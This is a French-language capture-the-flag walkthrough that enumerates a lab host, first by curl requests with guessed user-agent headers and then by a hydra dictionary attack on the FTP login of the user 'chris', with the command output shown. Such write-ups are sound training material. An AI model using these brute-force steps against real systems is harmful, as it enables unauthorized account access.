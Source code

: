 Le message affiché dis de changer son user-agent par son nom de code, testons les uns à uns.

> curl 10.10.9.25 -A -A -L

Le même message s'affiche.

> curl 10.10.9.25 -A -B -L

Le même message s'affiche.

> curl 10.10.9.25 -A -C -L

```html
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

Parfait nous avons réussis à récuperer le nom de l'agent C, et celon l'agent R le mot de passe de chris serait faible.

Allons maintenant tenter de se connecter au ftp avec le nom de l'utilisateur chris.

> ftp 10.10.9.25

```
Connected to 10.10.9.25.
220 (vsFTPd 3.0.3)
Name (10.10.9.25:ethost): chris
331 Please specify the password.
Password:
```

Il nous demande un mot de passe, tentons de faire une attaque par dictionnaire avec hydra.



##### <u>**3. HYDRA:**</u>

> hydra -l chris -P Documents/wordlist/probable-v2-top12000.txt -f ftp://10.10.9.25 -V

- `-l: Demande de taper un login specifique.`

- `-P: Demande un fichier pour énumerer les mot de passe.`
- `-f: Arrête le programme après avoir trouvé le premier login/motdepasse.`
- `-V: Verbose, affiche tous les essais de connexion.` 

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-17 15:32:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12646 login tries (l:1/p:12646), ~791 tries per task
[DATA] attacking ftp://10.10.9.25:21/
[ATTEMPT] target 10.10.9.25 - login "chris" - pass "123456" - 1 of 12646 [child 0] (0/0)
[ATTEMPT] target 10.10.9.25 - login "chris" - pass "password" - 2 of 12646 [child 1] (0/0)

...

[STATUS] attack finished for 10.10.9.25 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-17 15:33:17
```

